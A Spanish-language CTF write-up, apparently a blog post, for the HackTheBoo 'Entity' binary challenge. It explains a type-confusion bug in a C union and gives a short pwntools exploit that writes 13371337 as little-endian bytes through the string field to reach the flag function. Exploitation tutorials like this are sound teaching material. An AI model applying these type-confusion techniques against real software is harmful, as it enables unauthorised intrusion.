```yaml
---
layout: post
title: HackTheBoo Entity - Type Confusion via Union
author: c4rta
date: 2023-04-15
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, Type Confusion] 
image: /assets/img/HTB-entity/waifu.gif
---
```

Tenemos un binario donde explotaremos la vulnerabilidad Type Confusion para utilizar incorrectamente un valor de un tipo como si fuera otro tipo.
{:.lead}

## Analisis

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
### Main

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```
En el main, tenemos un ```switch case``` con 3 opciones, donde dependiendo de lo que este en la funcion ```menu```, es lo que va a hacer

### Menu

```c
menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }
```

Nos damos cuenta que en la opcion ```C``` corresponde al ```case FLAG``` de la funcion main:

```c
case FLAG:
    get_flag();
    break;
```
Donde se manda a llamar a la funcion ```get_flag()```:

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```
Donde para mostrar la flag, tenemos que hacer que ```DataStore.integer``` sea igual a ```13371337```, sin embargo, hay una funcion que nos lo impide:

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```
Donde esta validando si ```DataStore.integer``` es igual a ```13371337``` que imoprima en pantalla el mensaje ```puts("\nWhat's this nonsense?!");``` y sale del programa

### Codigo vulnerable

Cada vez que se esta usando ```DataStore.integer``` se hace referencia a esta estructura:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

En C, la estructura ```union``` puede almacenar varios tipos de datos en la misma direccion de memoria. Por ejemplo, en este caso, ```integer``` es una variable que ocupa 8 bytes en la memoria, la cual almacena un valor entero de 64 bits, y ```string``` es otra variable la cual es una arreglo de caracteres que igual ocupa 8 bytes en la memoria (cada letra es un byte), y nosotros podemos acceder a esas variables a travez de ```DataStorage``` dependiendo de como queremos interpretar los datos dentro de ```union```, y ```union``` se encargara de ponerlas en la misma direccion de memoria, idependientemente del tipo de dato.

Y de toda esta explicacion viene la vulnerabilidad ```Type confusion``` o confusion de tipos, en la cual basicamente es un tipo de vulnerabilidad que ocurre cuando un programa utiliza incorrectamente un valor de un tipo como si fuera otro tipo. Y para este ejercicio podemos utilizar incorrectamente del valor de la variable ```string``` como si fuera el de la variable ```integer```

**Problema**

Al intentar pasarle el numero ```13371337``` como string, indicandole la opcion ```S``` como lo indica el ```case S```:

```c
case 'S':
    res.field = STRING;
    break;
```

El programa no muestra la flag:

![](/assets/img/HTB-entity/tc1.png)

Y es por esta comprobacion:

```c
case STRING:
    memcpy(DataStore.string, buf, sizeof(DataStore.string));
    break;

```
Sin embargo se supone que esta todo "bien", asi que para ver que se esta comparando realmente en ```DataStore.integer == 13371337```

### Analisis con GDB

En un gdb metere un breakpoint en la intruccion donde se realiza la comparacion:

```
0x0000000000001412 <+11>:	cmp    rax,0xcc07c9
```

Primero que nada, lo que esta haciendo ```cmp    rax,0xcc07c9``` es comparar ```DataStorage``` que se guarda en ```rax```, con ```0xcc07c9``` que es el numero ```13371337```. Cuando ejecute el programa yo le indique que se guardara como string.

Al ver el valor de ```rax```:

![](/assets/img/HTB-entity/tc2.png)

Nos podemos dar cuenta que lo que se guarda en ```DataStorage``` es un decimal: ```0x3733333137333331```, entonces para explotar esta confusion de tipos, podemos mandarle el numero 13371337 como string de bytes en little endian, por que ya no se estaria comprobando en la funcion ```set_field```, osea asi:

```
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

## Exploit

Y con todo lo anterior, el exploit queda asi:

```python
from pwn import *

p = process("./entity")

p.sendline("T")
p.sendline("S")
p.sendline(p64(13371337))
p.sendline("C")
p.interactive()
```

Y ya tenemos la flag:

![](/assets/img/HTB-entity/tc3.png)

Eso ha sido todo, gracias por leer ❤
